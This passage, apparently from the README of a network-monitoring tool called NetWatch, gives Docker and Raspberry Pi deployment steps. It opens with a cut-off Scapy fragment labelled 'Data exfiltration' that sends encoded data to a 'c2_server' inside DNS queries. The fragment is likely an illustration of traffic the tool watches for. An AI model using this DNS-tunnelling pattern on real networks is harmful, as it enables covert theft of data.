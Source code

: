      # Data exfiltration
     data_packet = IP(dst=c2_server)/DNS(qd=DNSQR(qname=encoded_data))
     ```

## 🐳 Docker Deployment

### Building the Container

```bash
# Build the Docker image
docker build -t netwatch .
```

```bash
# Run the container
docker run -d \
  --name netwatch \
  --network host \
  --cap-add=NET_ADMIN \
  --cap-add=NET_RAW \
  netwatch
```

## 🍓 Raspberry Pi Deployment

### Setting up Raspberry Pi

1. Install Docker on Raspberry Pi:

   ```bash
   curl -sSL https://get.docker.com | sh
   sudo usermod -aG docker $USER
   ```

2. Clone and deploy NetWatch:

   ```bash
   git clone https://github.com/yourusername/netwatch.git
   cd netwatch
   docker build -t netwatch .
   docker run -d \
     --name netwatch \
     --network host \
     --cap-add=NET_ADMIN \
     --cap-add=NET_RAW \
     netwatch
   ```

3. Access the dashboard:
   - From Raspberry Pi: `http://localhost:8501`
   - From other devices: `http://<raspberry-pi-ip>:8501`

### Remote Access Setup

